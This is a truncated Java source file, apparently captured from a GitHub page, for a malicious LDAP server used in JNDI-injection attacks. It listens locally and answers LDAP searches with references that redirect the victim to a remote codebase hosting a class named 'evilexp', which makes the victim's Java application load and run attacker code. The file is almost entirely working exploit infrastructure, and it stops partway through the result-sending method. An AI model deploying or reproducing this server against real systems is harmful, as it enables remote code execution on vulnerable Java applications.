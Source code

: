 #### test

LDAP\_Server

```plain
package JNDI;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Map;


public class LDAP_Server {
    public static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] args) {
        String[] args1 = new String[]{"http://127.0.0.1:8000/#evilexp"};
        int port = 9999;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig("listen", InetAddress.getByName("127.0.0.1"), port, ServerSocketFactory.getDefault(), SocketFactory.getDefault(), (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args1[0])));
            InMemoryDirectoryServer inMemoryDirectoryServer = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 127.0.0.1" + port);
            inMemoryDirectoryServer.startListening();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private URL codebase;

        public OperationInterceptor(URL url) {
            this.codebase = url;
        }


        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase,this.codebase.getRef().replace('.','/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName","foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
```